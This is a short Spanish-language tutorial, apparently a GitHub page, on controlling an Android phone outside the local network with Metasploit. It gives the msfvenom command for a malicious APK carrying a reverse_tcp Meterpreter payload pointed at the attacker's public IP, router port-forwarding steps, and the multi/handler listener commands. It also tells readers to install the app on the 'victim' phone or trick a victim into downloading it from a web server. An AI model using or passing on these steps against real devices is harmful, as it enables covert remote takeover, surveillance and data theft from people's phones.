




# Msfvenom fuera de Red



Muchos deebn saber como controlar un dispositivo con Msfvenom dentro de red pero algunos no saben
como controlar un dispositivo fuera de nuestra red local. Aqui te enseñaremos como controlar un dispositivo
con Msfvenom fuera de nuestra red local.

Primero iremos a nuestro kali linux y crearemos una aplicacion maliciosa con msfvenom y pondremos
nuestra IP publica:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=< TU IP PUBLICA > LPORT=4444 -o
android.apk
```

Luego iremos a nuestro navegador y escribiremos la direccion de nuestro router, en la mayoria es
192.168.1.1 y para iniciar secion por defecto admin.

Luego buscaremos donde diga reenvio de puetos:



abriremos el puerto 4444 y pondremos la IP de nuestro Kali Linux.

Ahora abriremos una nueva terminal en Kali Linux y escribiremos msfconsole luego ingresaremos los
siguientes comandos:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST IP kali linux
set LPORT 4444
exploit
```



Luego instalaremos la aplicacion maliciosa que creamos en nuestro celular víctima y la abriremos. Ahora
iremos a nuestro Kali Linux y veremos que tenermos una seción de meterpreter, ya estamos dentro de
nuestro celular víctima. Para ayudarnos ingresaremos help y podemos ver una serie de informacion de lo que
podemos hacer dentro de nuestro celular víctima.



**NOTA:** Pueden subir la aplicacion maliciosa a un servidor web como apache2, y hacer que la victima
descargue la aplicacion desde el servidor web.